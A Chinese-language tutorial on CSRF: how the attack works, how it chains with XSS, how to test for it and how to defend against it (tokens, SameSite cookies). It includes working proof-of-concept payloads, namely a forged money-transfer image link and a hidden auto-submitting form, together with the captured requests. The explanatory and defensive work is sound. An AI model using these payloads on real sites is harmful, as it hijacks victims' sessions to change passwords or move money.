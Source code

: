 ### 简介

跨站请求伪造Cross-Site Request Forgery(CSRF)，也被称为one click attack/session riding

### 原理

"借刀杀人"

CSRF通过构造get/post等请求，设法使已登录用户victim不知情的情况下，设法让victim携带自身Cookie发出"非其主观意愿的"HTTP请求

* CSRF局限性:如果只有单一的CSRF漏洞，攻击者无法得到该HTTP请求的内容(Cookie可用但无法查看)，也无法得到任何回显(HTTP响应等)
* CSRF扩展性:可联合其他漏洞(如XSS)进行攻击效果最大化

### CSRF类型

* CSRF类型 按method分
  * GET - 利用方式 使victim点击构造的url 发出GET请求 `http://get.csrfvul.com/payto?name=hacker&moneynumb=100`
  * POST - 利用方式 尝试转变为GET (可尝试将post请求体改成get形式放至url参数中 如果可以正常响应 则可以使用GET请求进行csrf攻击)

### 利用CSRF实现攻击

* 漏洞联合 - 使用XSS可绕过CSRF保护机制 无交互地利用CSRF漏洞 有以下场景:
   * 1.利用自身域名的XSS漏洞绕过CSRF防御机制 - 很多anti-CSRF机制原理是判断HTTP请求中的CSRFtoken的值，当只存在XSS漏洞时，可使用JavaScript找到csrf-token参数值(需要看csrf-token的具体位置)，并构造出携带csrf-toekn的HTTP请求 可通过后端对csrf-token的验证 实现CSRF攻击
   * 2.利用自身/兄弟/父子域名的XSS漏洞绕过CSRF防御机制 - 有的anti-CSRF机制是后端通过判断Referer的值，如果Referer的值 是自身/兄弟/父子域名下的url 就是"合法"请求
   * 如果有html注入漏洞 也是同理

|csrf-token位置|获取方法|描述|
|:---:|---|-------|
|html代码form表单|略||
|cookie|略|注意如果是HTTP-only的cookie就难以获取|


* 漏洞联合 - CSRF漏洞 可使self-XSS漏洞"变废为宝"
  * 场景 - `vul.com`存在self-XSS漏洞和CSRF漏洞，而直接利用self-XSS漏洞则victim只能是自己，如何实现self-XSS去攻击自己以外的目标?
  * 目标 - 通过借助CSRF漏洞，使XSSpayload能够攻击自己以外的目标
  * 过程 - 可在攻击者可控的第三方网站`https://3.com`下利用`vul.com`的CSRF漏洞:通过多种方法(如JavaScript)都可以构造出跨域HTTP请求发送到`vul.com`，其中RequestBody的内容包含了"能够触发self-XSS漏洞的payload"，所以当victim访问第三方网站`https://3.com`时，会发出CSRF请求到`vul.com`，则该用户在`vul.com`域下被XSS攻击


#### 利用CSRF漏洞发出GET请求

* 场景
  * 攻击者可控的第三方域:`www.3.com`会被victim访问
  * 目标域存在CSRF漏洞

通过多种办法(如JavaScript) 在 `http://www.3.com/demo` 中注入代码:
```
<img src="http://get.csrfvul.com/payto?name=hacker&moneynumb=100">
```

victim访问`http://www.3.com/demo` 则会发出GET请求到`get.csrfvul.com`


`get.csrfvul.com`收到了这个GET请求:

很容易看到,该请求中的Referer头说明了该get请求来自于第三方域(如果后端获取Referer的值 且是白名单方法验证其值 则CSRF利用失败)
```
GET /payto?name=hacker&moneynumb=100 HTTP/1.1
Host: get.csrfvul.com
Connection: keep-alive
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: image/webp,image/apng,image/*,*/*;q=0.8
Referer: http://www.3.com/demo
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
```

#### 利用可控的第三方域 实现CSRF发出POST请求

* 场景
  * 攻击者可控的第三方域:`www.3.com`会被victim访问
  * 目标域存在CSRF漏洞

通过多种办法(如JavaScript或HTML注入) 在 `https://www.3.com/demo` 中注入html代码:

```
<iframe style="display:none" name="csrf-frame1"></iframe>
<form method='POST' action='https://post.csrfvul.com/search' target="csrf-frame1" id="csrf-form">
      <input type="hidden" name="ip" value="1&#46;1&#46;1&#46;1" />
      <input type="hidden" name="offset" value="0" />
      <input type="hidden" name="limit" value="20" />
      <input type="submit" value="send Request" /><!--实战中去掉这一行 不会影响POST请求的发送 可以隐藏按钮-->
    </form>
<script>document.getElementById("csrf-form").submit()</script>
```

victim访问 `https://3.com/demo` 则会发出POST请求到`https://post.csrfvul.com`

`post.csrfvul.com`收到了这个POST请求:
```
POST /search HTTP/1.1
Host: post.csrfvul.com
Connection: keep-alive
Content-Length: 28
Cache-Control: max-age=0
Origin: https://3.com
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: https://3.com/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

ip=1.1.1.1&offset=0&limit=20
```

很容易看到,该请求中的Referer头说明了该get请求来自于第三方域(如果后端获取Referer的值 且是白名单方法验证其值 则CSRF利用失败)
```
Origin: https://3.com
Referer: https://3.com/
```


### 漏洞影响

* CSRF攻击场景 利用victim的身份进行操作
  * 修改管理员密码 - 使管理员点击构造的链接 即可修改其密码
  * 新建管理员账号 - 使管理员点击构造的链接 即可新增管理员
  * 社交站点蠕虫(XSS结合CSRF) - 如果"向好友发送消息"的HTTP请求中没有设置CSRF-token请求头 则可结合XSS可构造出XSS+CSRF蠕虫 影响极大
  * 拒绝服务(XSS结合CSRF) - 如果XSS能打到管理员后台 且管理员注销动作无CSRF防御机制 则可构造payload使管理员一登录就注销

### 测试

* 相同请求重放 - 即可判断token是否为每次动态生成 仅一次性有效 用后失效
* 完全删除CSRFtoken值令其为空 - 即可判断后端是否验证token是否有效
* 修改CSRFtoken值中一个字符 - 即可判断后端验证机制是否严谨
* HTTP方法由POST转换为GET - 即可判断后端验证机制是否严谨

### SDL - 防御与修复方案

* web框架 - 启动框架中成熟的CSRF防御功能
  * 自定义HTTP请求头(Custom Request Headers)
    * 如使用`X-CSRF-token:xxxx`标明CSRF_TOKEN的值(即使CSRF利用成功发出了携带Cookie的HTTP请求 但后端判断`X-CSRF-token`不存在则拒绝请求)
  * One-time Token
    * 如每次提交表单都包含字段`Token=xxxx`且每次值不同 后端可校验是否正确
* `Set-Cookie`使用`SameSite`属性
  * 后端Response Header`Set-Cookie`中设置`SameSite`属性(由Google引入浏览器 用于缓解CSRF攻击)，`SameSite`属性有3种值:
    * `Strict`严格
      * 例如 域b.com的Response Header有`Set-Cookie: admin_cookie_strict=xxx; SameSite=Strict`，浏览器中会保存这一Cookie字段`admin_cookie_strict=xxx`，但由于`SameSite=Strict`为**严格**，所以浏览器对(非b.com域下发起的)访问b.com的**任何跨域请求**都不允许携带这一Cookie字段`admin_cookie=xxx`，所以可以防御CSRF攻击。比如从域a.com下构造并发出跨域请求访问b.com(尝试CSRF)，绝对不会携带关键的cookie，从而b.com后端鉴权失败，CSRF攻击失败
    * `Lax`宽松 - 没有`SameSite`属性的cookie被浏览器默认为`SameSite=Lax`
      * 例如 域b.com的Response Header有`Set-Cookie: admin_cookie_lax=xxx; SameSite=Lax`，浏览器中会保存这一Cookie字段`admin_cookie_lax=xxx`，但由于`SameSite=Strict`为**宽松**，所以浏览器对(非b.com域下发起的)访问b.com的**多种跨域请求**都不允许携带这一Cookie字段，只有以下3种方式(任何一种)，才能够携带b.com的cookie`admin_cookie_lax=xxx`
        * 非同域下的a标签 `<a href="http://b.com"></a>`
        * 非同域下的GET表单 `<form method="GET" action="http://b.com/formdemo">`
        * 非同域下的link标签 `<link rel="prerender" href="http://b.com"/>`
    * `None`无
      * `SameSite=None`必须同时指定`Secure`，例如`Set-Cookie: session_none=abc123; SameSite=None; Secure`
* 二次验证 - 安全但影响用户体验(适用于仅对敏感功能处进行防御)
  * CAPTCHA 增加验证码机制
  * 再次输入密码
  * 手机验证码
* (不推荐)通过`Referer/Origin`校验来源域名
  * 缺陷1.只能防御从"不被信任"的域发起的伪造的http请求（如果 **父、子、兄弟域名** 或 **CORS中被信任的域名** 有XSS漏洞 配合构造一个伪造请求 此时referer和Origin的值都是被信任的域 此时“校验来源域名”无法防御）
  * 缺陷2.正常业务如果有302跳转 不携带Origin

参考OWASP [Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.md](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.md)
